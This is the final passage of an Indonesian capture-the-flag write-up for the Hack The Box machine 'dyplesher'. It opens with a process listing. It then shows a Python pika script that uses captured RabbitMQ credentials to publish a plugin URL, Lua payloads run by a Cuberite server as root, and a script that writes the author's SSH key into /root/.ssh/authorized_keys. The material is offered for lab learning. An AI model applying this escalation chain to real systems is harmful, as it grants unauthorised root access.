root         3  0.0  0.0      0     0 ?        I<   05:57   0:00 [rcu_gp]
root         4  0.0  0.0      0     0 ?        I<   05:57   0:00 [rcu_par_gp]
root         6  0.0  0.0      0     0 ?        I<   05:57   0:00 [kworker/0:0H]
root         9  0.0  0.0      0     0 ?        I<   05:57   0:00 [mm_percpu_wq]
root        10  0.0  0.0      0     0 ?        S    05:57   0:00 [ksoftirqd/0]
root        11  0.0  0.0      0     0 ?        I    05:57   0:00 [rcu_sched]
root        12  0.0  0.0      0     0 ?        S    05:57   0:00 [migration/0]
root        13  0.0  0.0      0     0 ?        S    05:57   0:00 [idle_inject/0]
root        14  0.0  0.0      0     0 ?        S    05:57   0:00 [cpuhp/0]
root        15  0.0  0.0      0     0 ?        S    05:57   0:00 [cpuhp/1]
root        16  0.0  0.0      0     0 ?        S    05:57   0:00 [idle_inject/1]
root        17  0.0  0.0      0     0 ?        S    05:57   0:00 [migration/1]
root        18  0.0  0.0      0     0 ?        S    05:57   0:00 [ksoftirqd/1]
root        20  0.0  0.0      0     0 ?        I<   05:57   0:00 [kworker/1:0H-kblockd]
root        21  0.0  0.0      0     0 ?        S    05:57   0:00 [kdevtmpfs]
root        22  0.0  0.0      0     0 ?        I<   05:57   0:00 [netns]
root        23  0.0  0.0      0     0 ?        S    05:57   0:00 [rcu_tasks_kthre]
root        24  0.0  0.0      0     0 ?        S    05:57   0:00 [kauditd]
root        25  0.0  0.0      0     0 ?        S    05:57   0:00 [khungtaskd]
root        26  0.0  0.0      0     0 ?        S    05:57   0:00 [oom_reaper]
root        27  0.0  0.0      0     0 ?        I<   05:57   0:00 [writeback]
root        28  0.0  0.0      0     0 ?        S    05:57   0:00 [kcompactd0]
root        29  0.0  0.0      0     0 ?        SN   05:57   0:00 [ksmd]
root        30  0.0  0.0      0     0 ?        SN   05:57   0:00 [khugepaged]
root       123  0.0  0.0      0     0 ?        I<   05:57   0:00 [kintegrityd]
root       124  0.0  0.0      0     0 ?        I<   05:57   0:00 [kblockd]
root       125  0.0  0.0      0     0 ?        I<   05:57   0:00 [blkcg_punt_bio]
root       126  0.0  0.0      0     0 ?        I<   05:57   0:00 [tpm_dev_wq]
root       127  0.0  0.0      0     0 ?        I<   05:57   0:00 [ata_sff]
root       128  0.0  0.0      0     0 ?        I<   05:57   0:00 [md]
root       129  0.0  0.0      0     0 ?        I<   05:57   0:00 [edac-poller]
root       130  0.0  0.0      0     0 ?        I<   05:57   0:00 [devfreq_wq]
root       131  0.0  0.0      0     0 ?        S    05:57   0:00 [watchdogd]
root       134  0.0  0.0      0     0 ?        S    05:57   0:00 [kswapd0]
root       135  0.0  0.0      0     0 ?        I<   05:57   0:00 [kworker/u5:0]
root       136  0.0  0.0      0     0 ?        S    05:57   0:00 [ecryptfs-kthrea]
root       139  0.0  0.0      0     0 ?        I<   05:57   0:00 [kthrotld]
root       140  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/24-pciehp]
root       141  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/25-pciehp]
root       142  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/26-pciehp]
root       143  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/27-pciehp]
root       144  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/28-pciehp]
root       145  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/29-pciehp]
root       146  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/30-pciehp]
root       147  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/31-pciehp]
root       148  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/32-pciehp]
root       149  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/33-pciehp]
root       150  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/34-pciehp]
root       151  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/35-pciehp]
root       152  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/36-pciehp]
root       153  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/37-pciehp]
root       154  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/38-pciehp]
root       155  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/39-pciehp]
root       156  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/40-pciehp]
root       157  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/41-pciehp]
root       158  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/42-pciehp]
root       159  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/43-pciehp]
root       160  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/44-pciehp]
root       161  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/45-pciehp]
root       162  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/46-pciehp]
root       163  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/47-pciehp]
root       164  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/48-pciehp]
root       165  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/49-pciehp]
root       166  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/50-pciehp]
root       167  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/51-pciehp]
root       168  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/52-pciehp]
root       169  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/53-pciehp]
root       170  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/54-pciehp]
root       171  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/55-pciehp]
root       172  0.0  0.0      0     0 ?        I<   05:57   0:00 [acpi_thermal_pm]
root       173  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_0]
root       174  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_0]
root       175  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_1]
root       176  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_1]
root       179  0.0  0.0      0     0 ?        I<   05:57   0:00 [ipv6_addrconf]
root       190  0.0  0.0      0     0 ?        I<   05:57   0:00 [kstrp]
root       209  0.0  0.0      0     0 ?        I<   05:57   0:00 [charger_manager]
root       260  0.0  0.0      0     0 ?        I<   05:57   0:00 [cryptd]
root       261  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_2]
root       271  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_2]
root       272  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_3]
root       275  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_3]
root       277  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_4]
root       278  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_4]
root       280  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_5]
root       281  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_5]
root       283  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_6]
root       284  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_6]
root       286  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_7]
root       287  0.0  0.0      0     0 ?        S    05:57   0:00 [irq/16-vmwgfx]
root       288  0.0  0.0      0     0 ?        I<   05:57   0:00 [ttm_swap]
root       289  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_7]
root       292  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_8]
root       294  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_8]
root       296  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_9]
root       299  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_9]
root       300  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_10]
root       301  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_10]
root       304  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_11]
root       305  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_11]
root       307  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_12]
root       322  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_12]
root       327  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_13]
root       328  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_13]
root       331  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_14]
root       332  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_14]
root       333  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_15]
root       334  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_15]
root       335  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_16]
root       336  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_16]
root       337  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_17]
root       338  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_17]
root       339  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_18]
root       340  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_18]
root       341  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_19]
root       342  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_19]
root       343  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_20]
root       344  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_20]
root       345  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_21]
root       346  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_21]
root       347  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_22]
root       348  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_22]
root       350  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_23]
root       351  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_23]
root       352  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_24]
root       353  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_24]
root       354  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_25]
root       355  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_25]
root       356  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_26]
root       357  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_26]
root       358  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_27]
root       359  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_27]
root       360  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_28]
root       361  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_28]
root       362  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_29]
root       363  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_29]
root       364  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_30]
root       365  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_30]
root       366  0.0  0.0      0     0 ?        S    05:57   0:00 [scsi_eh_31]
root       367  0.0  0.0      0     0 ?        I<   05:57   0:00 [scsi_tmf_31]
root       395  0.0  0.0      0     0 ?        I<   05:57   0:00 [kworker/1:1H-kblockd]
root       404  0.0  0.0      0     0 ?        I<   05:57   0:00 [kworker/0:1H-kblockd]
root       427  0.0  0.0      0     0 ?        I<   05:57   0:00 [raid5wq]
root       468  0.0  0.0      0     0 ?        S    05:57   0:00 [jbd2/sda2-8]
root       469  0.0  0.0      0     0 ?        I<   05:57   0:00 [ext4-rsv-conver]
root       557  0.0  0.5 100400 24104 ?        S<s  05:57   0:01 /lib/systemd/systemd-journald
root       558  0.0  0.0   2480   768 ?        S    05:57   0:00 bpfilter_umh
root       573  0.0  0.1  20384  4876 ?        Ss   05:57   0:00 /lib/systemd/systemd-udevd
root       773  0.0  0.0      0     0 ?        I<   05:58   0:00 [kaluad]
root       774  0.0  0.0      0     0 ?        I<   05:58   0:00 [kmpath_rdacd]
root       775  0.0  0.0      0     0 ?        I<   05:58   0:00 [kmpathd]
root       776  0.0  0.0      0     0 ?        I<   05:58   0:00 [kmpath_handlerd]
root       777  0.0  0.4 280088 17892 ?        SLsl 05:58   0:00 /sbin/multipathd -d -s
root       787  0.0  0.0      0     0 ?        S<   05:58   0:00 [loop0]
root       790  0.0  0.0      0     0 ?        S<   05:58   0:00 [loop1]
root       791  0.0  0.0      0     0 ?        S<   05:58   0:00 [loop2]
root       792  0.0  0.0      0     0 ?        S<   05:58   0:00 [loop3]
root       793  0.0  0.0      0     0 ?        S<   05:58   0:00 [loop4]
root       808  0.0  0.2  43716 10056 ?        Ss   05:58   0:00 /usr/bin/VGAuthService
systemd+   809  0.0  0.1  89952  6200 ?        Ssl  05:58   0:00 /lib/systemd/systemd-timesyncd
root       834  0.0  0.3 123052 12492 ?        Ssl  05:58   0:03 /usr/bin/vmtoolsd
root       837  0.0  0.0      0     0 ?        I    05:58   0:01 [kworker/1:4-events]
systemd+   881  0.0  0.1  17868  7512 ?        Ss   05:58   0:00 /lib/systemd/systemd-networkd
systemd+   883  0.0  0.2  20668  8652 ?        Ss   05:58   0:01 /lib/systemd/systemd-resolved
rabbitmq   898  0.0  0.0   2600   732 ?        Ss   05:58   0:00 /bin/sh /usr/sbin/rabbitmq-server
root       906  0.0  0.1 235480  7376 ?        Ssl  05:58   0:00 /usr/lib/accountsservice/accounts-daemon
root       910  0.0  0.4  28636 17628 ?        Ss   05:58   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root       914  0.0  0.0  81884  3752 ?        Ssl  05:58   0:00 /usr/sbin/irqbalance --foreground
epmd       917  0.0  0.0   6436  3024 ?        Ss   05:58   0:00 /usr/bin/epmd -systemd
root       926  0.0  0.1  16400  7416 ?        Ss   05:58   0:01 /lib/systemd/systemd-logind
syslog     927  0.0  0.1 224360  4656 ?        Ssl  05:58   0:00 /usr/sbin/rsyslogd -n -iNONE
root       928  0.0  0.0   6688  3004 ?        Ss   05:58   0:00 /usr/sbin/cron -f
root       934  0.0  0.7 772424 28944 ?        Ssl  05:58   0:02 /usr/lib/snapd/snapd
git        936  0.0  1.3 650080 55160 ?        Ssl  05:58   0:01 /home/git/gogs/gogs web
message+   940  0.0  0.1   7596  5004 ?        Ss   05:58   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
daemon     941  0.0  0.0   3736  2264 ?        Ss   05:58   0:00 /usr/sbin/atd -f
root       988  0.2  1.2 971316 49512 ?        Ssl  05:58   0:09 /usr/bin/containerd
root       990  0.0  0.1  12028  7356 ?        Ss   05:58   0:00 /usr/sbin/sshd -D
root       995  0.0  2.1 1011580 85588 ?       Ssl  05:58   0:02 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
MinatoTW  1001  0.0  0.0   8936  2412 ?        Ss   05:58   0:00 /usr/bin/SCREEN -dmS mc /usr/bin/java -Xms512M -Xmx512M -jar paper.jar
root      1002  0.0  0.0   2852  1836 tty1     Ss+  05:58   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
MinatoTW  1003  0.0  0.0   8936  2528 ?        Ss   05:58   0:00 /usr/bin/SCREEN -dmS Cuberite /home/MinatoTW/Cuberite/Cuberite
MinatoTW  1004  0.3  3.4 961168 138836 pts/1   Ssl+ 05:58   0:11 /home/MinatoTW/Cuberite/Cuberite
MinatoTW  1005  2.6  8.9 3122316 358796 pts/2  Ssl+ 05:58   1:32 /usr/bin/java -Xms512M -Xmx512M -jar paper.jar
rabbitmq  1014  0.5  1.6 2152252 67420 ?       Sl   05:58   0:20 /usr/lib/erlang/erts-10.4.4/bin/beam.smp -W w -A 64 -MBas ageffcbf -MHas ageffcbf -MBlmbcs 512 -MHlmbcs 512 -MMmcs 30 -P 1048576 -t 5000000 -stbt db -zdbbl 128000 -K true -- -root /usr/lib/erlang -progname erl -- -home /var/lib/rabbitmq -- -pa /usr/lib/rabbitmq/lib/rabbitmq_server-3.7.8/ebin -noshell -noinput -s rabbit boot -sname rabbit@dyplesher -boot start_sasl -kernel inet_default_connect_options [{nodelay,true}] -sasl errlog_type error -sasl sasl_error_logger false -rabbit lager_log_root "/var/log/rabbitmq" -rabbit lager_default_file "/var/log/rabbitmq/rabbit@dyplesher.log" -rabbit lager_upgrade_file "/var/log/rabbitmq/rabbit@dyplesher_upgrade.log" -rabbit enabled_plugins_file "/etc/rabbitmq/enabled_plugins" -rabbit plugins_dir "/usr/lib/rabbitmq/plugins:/usr/lib/rabbitmq/lib/rabbitmq_server-3.7.8/plugins" -rabbit plugins_expand_dir "/var/lib/rabbitmq/mnesia/rabbit@dyplesher-plugins-expand" -os_mon start_cpu_sup false -os_mon start_disksup false -os_mon start_memsup false -mnesia dir "/var/lib/rabbitmq/mnesia/rabbit@dyplesher" -kernel inet_dist_listen_min 25672 -kernel inet_dist_listen_max 25672
root      1178  0.0  0.1 232580  6824 ?        Ssl  05:58   0:00 /usr/lib/policykit-1/polkitd --no-debug
mysql     1221  0.4 10.0 1821668 405712 ?      Ssl  05:58   0:15 /usr/sbin/mysqld
root      1228  0.0  0.5 196616 20656 ?        Ss   05:58   0:00 /usr/sbin/apache2 -k start
MinatoTW  1238  0.0  0.2 196960  8972 ?        S    05:58   0:00 /usr/sbin/apache2 -k start
MinatoTW  1239  0.0  0.2 196960  8972 ?        S    05:58   0:00 /usr/sbin/apache2 -k start
MinatoTW  1240  0.0  0.2 196960  8972 ?        S    05:58   0:00 /usr/sbin/apache2 -k start
MinatoTW  1277  0.0  0.2 196960  8972 ?        S    05:58   0:00 /usr/sbin/apache2 -k start
MinatoTW  1278  0.0  0.2 196960  8972 ?        S    05:58   0:00 /usr/sbin/apache2 -k start
root      1550  0.0  0.5 107676 20944 ?        Ssl  05:58   0:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
root      1562  0.0  0.0 548188  3336 ?        Sl   05:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 11211 -container-ip 172.17.0.2 -container-port 11211
root      1579  0.0  0.1 108940  5032 ?        Sl   05:58   0:00 containerd-shim -namespace moby -workdir /var/lib/containerd/io.containerd.runtime.v1.linux/moby/8e537b4a1d82bef9748d1446f4d3bb8d0afede3e74746f9fe95c147f7abd781c -address /run/containerd/containerd.sock -containerd-binary /usr/bin/containerd -runtime-root /var/run/docker/runtime-runc
MinatoTW  1662  0.0  0.2 417652  8640 ?        Ssl  05:58   0:01 /opt/bitnami/memcached/bin/memcached -u memcached -p 11211 -v -S
rabbitmq  2055  0.0  0.0   2484  1632 ?        Ss   05:58   0:00 erl_child_setup 65536
rabbitmq  2078  0.0  0.0   3872  1112 ?        Ss   05:58   0:00 inet_gethost 4
rabbitmq  2079  0.0  0.0   3952  1784 ?        S    05:58   0:00 inet_gethost 4
root      2201  0.0  0.0   8936  2520 ?        Ss   05:59   0:00 /usr/bin/SCREEN -dmS com /usr/bin/php /root/work/com.php
root      2202  0.0  0.4  62276 19684 pts/0    Ss+  05:59   0:00 /usr/bin/php /root/work/com.php
root      2485  0.0  0.0      0     0 ?        I    06:04   0:00 [kworker/u4:1-events_unbound]
root      4062  0.0  0.0      0     0 ?        I    06:30   0:00 [kworker/u4:0-events_power_efficient]
root      4487  0.0  0.0      0     0 ?        I    06:37   0:00 [kworker/u4:2-events_power_efficient]
root      5076  0.0  0.0      0     0 ?        I    06:46   0:00 [kworker/0:1-events]
root      5085  0.0  0.0      0     0 ?        I    06:46   0:00 [kworker/0:2-events]
root      5274  0.0  0.0      0     0 ?        I    06:47   0:00 [kworker/1:0-events]
root      6040  0.0  0.0      0     0 ?        I    06:55   0:00 [kworker/1:1-events]
root      6047  0.0  0.0      0     0 ?        I    06:55   0:00 [kworker/1:2]
root      6113  0.0  0.0      0     0 ?        D    06:55   0:00 [kworker/0:0+events]
felamos   6145  0.0  0.2  18168  9444 ?        Ss   06:56   0:00 /lib/systemd/systemd --user
felamos   6146  0.0  0.0 168292  3032 ?        S    06:56   0:00 (sd-pam)
root      6156  0.0  0.0      0     0 ?        I    06:56   0:00 [kworker/0:3]
root      6232  0.0  0.2  12912  8328 ?        Ss   06:56   0:00 sshd: felamos [priv]
felamos   6313  0.0  0.1  13224  5000 ?        S    06:56   0:00 sshd: felamos@pts/3
felamos   6314  0.2  0.1   8304  5132 pts/3    Ss   06:56   0:00 -bash
felamos   6359  0.1  0.0   7724  3980 pts/3    S+   06:56   0:00 /bin/bash ./LinEnum.sh
felamos   6360  0.1  0.0   7724  2776 pts/3    S+   06:56   0:00 /bin/bash ./LinEnum.sh
felamos   6361  0.0  0.0   5436   784 pts/3    S+   06:56   0:00 tee -a
root      6549  0.0  0.0  20384  2368 ?        S    06:56   0:00 /lib/systemd/systemd-udevd
felamos   6567  0.0  0.0   7724  2584 pts/3    S+   06:56   0:00 /bin/bash ./LinEnum.sh
felamos   6568  0.0  0.0   8780  3288 pts/3    R+   06:56   0:00 ps aux
```

Kita bisa melihat sebuah process yang dijalankan oleh MinatoTW yang bernama Cuberite mari kita coba untuk lihat di google

[https://github.com/cuberite/cuberite](https://github.com/cuberite/cuberite)

Ternyata cuberita adalah game server yang compatible untuk Minecraft yang ditulis dalam bahasa C++ yang di desain untuk mengutamakan efisiensi memory dan CPU sehingga bisa dibilang lightweight dan memiliki "Lua Plugin API"

Sehingga untuk membuat pluginnya Cuberite yang akan kita inject kita bisa menggunakan script dalam bahasa Lua

Juga perlu diingat kembali karena firewall yang melarang outbound connection, script Lua kita harus berada di mesin dyplesher tersebut sendiri.

Sekarang bagaimana caranya kita metrigger "publish" yang tadi di minta oleh felamos? Kita bisa menggunakan python module Pika [https://www.rabbitmq.com/tutorials/tutorial-three-python.html](https://www.rabbitmq.com/tutorials/tutorial-three-python.html)

Dengan menggunakan referensi dari [https://pika.readthedocs.io/en/stable/intro.html](https://pika.readthedocs.io/en/stable/intro.html) dan informasi sebelumnya yang sudah didapatkan seperti credential, metode publish serta exchange/routing key nya. Penulis membuat script seperti dibawah ini

```
import pika

credentials = pika.PlainCredentials('yuntao', 'EashAnicOc3Op')
parameters = pika.ConnectionParameters('dyplesher.htb',5672,'/',credentials)

connection = pika.BlockingConnection(parameters)
channel = connection.channel()
channel.basic_publish(routing_key="plugin_data",body="http://127.0.0.1:8080/test.lua")
connection.close()
```


Scriptnya error ketika di jalankan, mari kita tambahkan field exchange tapi tidak diisi karena kita tidak mengetahui exchange mana tujuan yang di post walaupun kita tau routing_key yang dituju

```
import pika

credentials = pika.PlainCredentials('yuntao', 'EashAnicOc3Op')
parameters = pika.ConnectionParameters('dyplesher.htb',5672,'/',credentials)

connection = pika.BlockingConnection(parameters)
channel = connection.channel()
channel.basic_publish(exchange="", routing_key="plugin_data",body="http://127.0.0.1:8080/test.lua")
connection.close()
```

Penulis juga menyiapkan file test.lua didalam folder yuntao

```
os.execute ("touch /home/yuntao/testfile")
```
Perlu diingat harus ada spasi diantara os.execute dan argument yang diberikan dan pastikan script lua memiliki permission untuk execute

Buka python simple http server agar Cuberite bisa mengambil plugin lua dari folder yuntao dan di execute


File yang kita coba buat ternyata dibuat oleh root, ini berarti kita tinggal memasukkan ssh public key kita ke /root/.ssh/authorized_keys

Penulis membuat script write to file seperti dibawah ini

```
file = io.open("/root/.ssh/authorized_keys","w")
io.output(file)
io.write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC7ujNTqjCu3sovW2WgNZF5ErZXaGa5TrwLhvEaFu2NVv9GTGKtE8wRymiRYhzppfTJ7ycBetXoj7jb6AAKRTEmC9B2CI2+tyhvEtrDYpooCm2xUPA/CxhiLByi8x2ucdV7SYiaI0HhuYthFqS+oQPk6eD0nkIWY/iPpA1xsremhsft6fhRnedlqVXgGNULGJaUIYJFk9IPm3Zt5OzCLc5Sldpg/c8loLIBb6VF7zMM3hvXgJH<-- Censored -->XFCap7/gEALFlc+Jg7F788th+XSGr7IGVAyF26K2/tUpzZUQ3dmLn246QSBDEbPDFANt/AXzsPnwtvHs/2km9TXVXEjy3fj7B1G2p44etoflMHKQLmEv/WkrY1TvG7ps83envBkKnQoMFSQbK9SWMiQWRH3SrneLS+c7YNGP08ADT4oGpRQspBHstnt3vWS1p3x6wTUnZqqO81onShvE= root@kali")
io.close()
```

Dan jalankan pikascript.py lagi untuk mengirimkan url ke Cuberite dan script lua tadi akan dijalankan dengan root privilege, sekarang tinggal login melalui ssh


# Rooted !